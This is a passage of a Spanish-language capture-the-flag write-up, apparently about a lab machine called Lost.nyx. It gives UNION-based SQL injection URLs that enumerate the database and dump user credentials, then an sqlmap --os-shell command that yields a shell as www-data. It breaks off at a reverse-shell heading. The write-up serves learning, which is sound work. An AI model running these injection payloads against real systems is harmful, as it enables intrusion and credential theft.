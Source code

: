 Se realizó una serie de inyecciones SQL para obtener información sobre la base de datos:

```plaintext
http://dev.lost.nyx/passengers.php?id=1 union select schema_name,2,3,4 from information_schema.schemata-- -
http://dev.lost.nyx/passengers.php?id=1 union select table_name,2,3,4 from information_schema.tables-- -
#users
http://dev.lost.nyx/passengers.php?id=1 union select column_name,2,3,4 from information_schema.columns where table_name = 'users'-- -
#username
#password
http://dev.lost.nyx/passengers.php?id=1 union select username,password,2,3 from users-- -
```

Esto permitió identificar la existencia de una tabla llamada "users" con las columnas "id", "username", "salt" y "password".

## Obtención y Filtrado de Credenciales

Las credenciales de los usuarios se obtuvieron mediante la inyección SQL y se almacenaron en un archivo llamado "pass". Luego se filtraron y formatearon:

```bash
nano pass  # Pegar usuarios y contraseñas
cat pass | awk '{print $1 ":::" $2}' > hashes
```

## Decodificación de Contraseñas

Se intentó decodificar las contraseñas utilizando base64, pero se encontraron problemas. Se buscará una alternativa para la decodificación.

```bash
# Intento de decodificación con base64 (no exitoso)
```

La investigación continúa para encontrar una solución adecuada para la decodificación de las contraseñas.

# Obtención de Shell y Exploración de la Red en Lost.nyx

## Generación de Shell con SQLMap

Después de identificar una vulnerabilidad de inyección SQL en el sitio web "dev.lost.nyx," se utilizó SQLMap para obtener una shell en la máquina víctima.

```bash
sqlmap -u "http://dev.lost.nyx/passengers.php?id=1" -p id --os-shell
whoami
# Resultado: www-data
```

## Creación de Reverse Shell y Acceso Remoto
